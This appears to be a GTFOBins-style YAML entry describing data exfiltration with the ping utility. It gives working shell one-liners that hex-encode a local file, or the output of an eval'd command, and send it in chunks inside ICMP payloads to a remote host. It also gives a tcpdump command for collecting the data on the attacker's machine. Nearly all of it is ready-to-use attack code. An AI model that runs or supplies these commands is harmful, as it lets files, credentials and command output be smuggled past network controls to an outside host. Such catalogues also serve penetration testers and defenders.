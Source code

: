 ```yaml
---
functions:
  data-exfiltration:
    - description: |
        Capture ICMP packets embedded in ping requests.
        Run `sudo timeout 10 tcpdump -i any -l -n -XX 'icmp' 2>/dev/null | grep '0x0060:'` on the attacker box to collect the data.             
        ⚠️ Increase the timeout flag based on the amount of data.                             
        ⚠️ Manual parsing or reconstruction is required.  
        
        Send local file content over ICMP using hex-encoded payloads.
      code: |
        hex=""; while IFS= read -r line; do set -- $line; for i in $(seq 1 $#);
        do eval "hex=\${hex}\${$i// /}"; done; done < <(od -An -tx1 -v $LFILE);
        i=0; while [ $i -lt ${#hex} ]; do chunk="${hex:$i:16}";
        ping -c1 -p "$chunk" $RHOST; i=$((i+16)); done
    - description: Send command output over ICMP using hex-encoded payloads.
      code: |
        hex=""; while IFS= read -r line; do set -- $line; for i in $(seq 1 $#);
        do eval "hex=\${hex}\${$i// /}"; done; done < <(eval "$CMD" | od -An -tx1 -v);
        i=0; while [ $i -lt ${#hex} ]; do chunk="${hex:$i:16}";
        ping -c1 -p "$chunk" $RHOST; i=$((i+16)); done
---
```

